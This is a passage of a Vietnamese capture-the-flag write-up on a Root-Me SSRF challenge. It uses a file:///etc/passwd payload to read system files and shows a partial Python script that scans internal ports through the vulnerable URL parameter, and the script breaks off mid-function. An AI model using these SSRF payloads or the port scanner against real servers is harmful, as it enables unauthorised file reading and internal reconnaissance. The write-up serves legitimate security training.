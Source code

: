 ![img](./img/12.png)

Để test lỗ hổng SSRF, mình có thể fuzz qua 1 số payload như file:///etc/passwd

![img](./img/13.png)

naice, nhưng bằng cách này mình chỉ có thể đọc được content những file trong đặc quyền của mình ( không thể đọc flag trong root). Mình tiếp tục fuzz qua về local port để biết thêm về những dịch vụ mà server đang chạy.

Script:
```
import threading,requests
from queue import Queue
 
def scan(port):
    h={"Content-Type": "application/x-www-form-urlencoded",}
    url= "http://ctf09.root-me.org/index.php"
    data={"url":f"localhost:{port}"}
    r= requests.post(url,data=data)
    if "Connection refused" not in r.text:
        print(f"[+] FOUND AT PORT: {port}")
 
def threader():
    while True:
        worker = q.get()
```